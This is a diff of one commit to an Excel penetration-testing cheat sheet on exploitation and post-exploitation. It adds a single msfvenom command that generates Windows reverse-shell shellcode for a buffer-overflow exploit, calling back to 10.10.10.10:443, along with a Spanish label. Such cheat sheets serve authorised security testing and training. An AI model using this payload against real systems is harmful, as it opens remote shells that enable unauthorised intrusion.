

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Explotacion & Post-Explotacion, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
+++ b/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
-B35: (empty)
+B35: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -b "\x00" -f python EXITFUNC=thread
-B35:D35 fill: none
+B35:D35 fill: #D9D9D9
-C35: (empty)
+C35: msfvenom BOF shell reversa
```
